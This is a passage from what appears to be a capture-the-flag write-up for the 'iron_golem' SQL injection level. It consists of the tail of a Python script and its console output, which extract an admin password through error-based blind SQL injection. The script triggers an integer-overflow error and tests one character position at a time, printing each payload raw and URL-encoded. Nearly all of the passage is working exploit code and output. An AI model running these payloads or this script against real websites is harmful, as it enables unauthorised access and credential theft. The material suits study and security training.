 ```python title="iron_golem_script.py"
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND if(substr(pw, {index}, 1)='{char}', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "out of range" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\iron_golem_script.py

[!] Payload: ?pw=' or id='admin' and if(length(pw)=32, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[!] Payload (URL encoded): ?pw=%27+or+id%3D%27admin%27+and+if%28length%28pw%29%3D32%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[!] Password length: 32

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 1, 1)='0', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+1%2C+1%29%3D%270%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 2, 1)='6', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+2%2C+1%29%3D%276%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 2: 6

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 3, 1)='b', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+3%2C+1%29%3D%27b%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 3: b

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 4, 1)='5', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+4%2C+1%29%3D%275%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 4: 5
```